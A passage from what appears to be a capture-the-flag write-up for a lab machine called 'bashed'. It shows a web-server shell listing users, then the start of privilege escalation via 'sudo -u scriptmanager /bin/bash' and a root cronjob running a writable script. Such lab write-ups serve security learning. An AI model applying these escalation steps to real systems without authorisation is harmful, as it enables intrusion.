 ``` {.python .numberLines}
        collisions:0 txqueuelen:1 
        RX bytes:32908196 (32.9 MB)  TX bytes:32908196 (32.9 MB)
www-data@bashed>  
www-data@bashed> users
root
arrexel
scriptmanager
```

\newpage
## Phase #3: Privilege Escalation
1\. We find that the user `www-data` can run any command as user `scriptmanager` using `sudo`:  
``` {.python .numberLines}
sudo -l
sudo -u scriptmanager /bin/bash

```

![writeup.privesc.steps.1.1](./screenshot07.png)  

![writeup.privesc.steps.1.2](./screenshot10.png)  

2\. We find an interesting directory `/scripts` which has two files in it. One is a Python script `test.py` owned by user `scriptmanager` and other is `test.txt` owned by `root`. We use a script `CronJobCheckser.sh` and find that there's a `root` owned cronjob that runs the `test.py` script and which creates the `test.txt` file.  
``` {.python .numberLines}
ls -la /scripts
cat /scripts/test.py

```
